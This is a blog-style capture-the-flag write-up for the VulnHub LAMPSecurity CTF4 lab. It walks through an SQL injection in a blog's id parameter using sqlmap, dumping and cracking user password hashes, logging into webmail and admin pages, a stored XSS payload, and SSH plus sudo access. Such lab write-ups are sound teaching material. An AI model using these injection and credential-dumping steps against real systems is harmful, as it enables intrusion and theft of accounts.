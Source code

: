 ```yaml
---

layout: post
title: LAMP CTF4
date: Wed Sep 20 2017
image:
  link: /posts/lamp_ctf4/presentation.jpg
  credit_link: https://unsplash.com/@felexelix

---
```


> Source: https://www.vulnhub.com/entry/lampsecurity-ctf4,83/

This LAMP challenge is most likely to be focused around casual Linux-Apache-MySQL-PHP vulnerabilities. Let's check the `robots.txt` file first:

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

## /mail/

Looks like a webmail service, we can't login for now, moving on.

## /restricted/

There's another service here, protected by a `.htaccess` file login, but we don't have any access, moving on.

## /conf/

This page crashes with a 500 error that gives two interesting pieces of information:

- The system is Fedora and is using `Apache/2.2.0`
- `dstevens@localhost` is the system admin of the website.

## /sql/

Following the link to the `db.sql` file, it looks like the database init script, to create tables inside the database `ehks`.

```sql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

## /admin/

This is a login page to what seems to be the admin section of the website, we don't have any access, moving on.

# Blog

We can find quite easily that the `id` parameter on the blog page is subject to SQL injections:

```
http://hostname/index.html?page=blog&title=Blog&id=2 or 1=1
```

Let's spin up `sqlmap` to verify that:

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2
...
[14:29:44] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
...
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=blog&title=Blog&id=2 AND 4573=4573

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: page=blog&title=Blog&id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,CONCAT(0x7176766a71,0x5977754a5070696d674d496c6b5054584d4655575261757651686750576e58664e7475695866544f,0x716b706271),NULL,NULL,NULL-- aReR
---
[14:29:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
```

This confirms the vulnerability of the `id` parameter and also that we have the LAMP setup as expected.

Let's explore the database now, starting with the tables and columns in the database `ehks` (the one we found earlier):

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2 --dbms=MySQL -p id --columns -D ehks
...
Database: ehks
Table: blog
[5 columns]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| blog_body  | text         |
| blog_date  | datetime     |
| blog_id    | int(11)      |
| blog_title | varchar(255) |
| user_id    | int(11)      |
+------------+--------------+

Database: ehks
Table: comment
[6 columns]
+----------------+-------------+
| Column         | Type        |
+----------------+-------------+
| comment_author | varchar(50) |
| comment_body   | text        |
| comment_date   | datetime    |
| comment_id     | int(11)     |
| comment_title  | varchar(50) |
| comment_url    | varchar(50) |
+----------------+-------------+

Database: ehks
Table: user
[3 columns]
+-----------+-------------+
| Column    | Type        |
+-----------+-------------+
| user_id   | int(11)     |
| user_name | varchar(20) |
| user_pass | varchar(32) |
+-----------+-------------+
```

Sweet! now let's dump the user info and try to crack the passwords:

```shell
$ sqlmap --url=http://hostname/index.html\?page\=blog\&title\=Blog\&id\=2 --dbms=MySQL -p id -D ehks -T user --dump
...
[14:48:02] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q] y
what dictionary do you want to use?
[1] default dictionary file '/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
do you want to use common password suffixes? (slow!) [y/N] n
...
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

Remember the `500` error previously? It mentioned the user `dstevens`, and we now have his password, great! 

We can go back to the previous services we found:

# /mail/ round 2

Using the `dstevens`/`ilike2surf` combination works. We can see a lot of security-related emails, mentioning the `sqlmap` execution we just did (not very stealthy!):

```
OSSEC HIDS Notification.
2017 Sep 19 14:29:26

Received From: ctf->/var/log/httpd/access_log
Rule: 31106 fired (level 12) -> "A web attack returned code 200 (success)."
Portion of the log(s):

XX.XX.XX.XX - - [19/Sep/2017:14:29:26 -0400] "GET
/index.html?page=blog&title=Blog%25%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23&id=2
HTTP/1.1" 200 2982 "-" "sqlmap/1.0.9.32#dev (http://sqlmap.org)"

--END OF NOTIFICATION
```

# /admin/ round 2

The same login works here, it's the backend to the blog part of the website. We can create new blog posts with a title and a body. Nothing more to say apart from the fact that the fields won't protect against possible XSS. Posting 

```html
<script> alert(1) </script>
```

will lead to the script being executed.

# SSH

`dstevens` is most likely the admin of the machine, let's try to connect to the box, using SSH, with the same login found on the db:

```shell
$ ssh dstevens@hostname
dstevens@hostname's password:
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50
[dstevens@ctf ~]$ cat /passwd
cat: /passwd: Permission denied
[dstevens@ctf ~]$ sudo cat /passwd
Password:
21fd958ecb671ca15bd7547077910147
```

Neat, it worked!
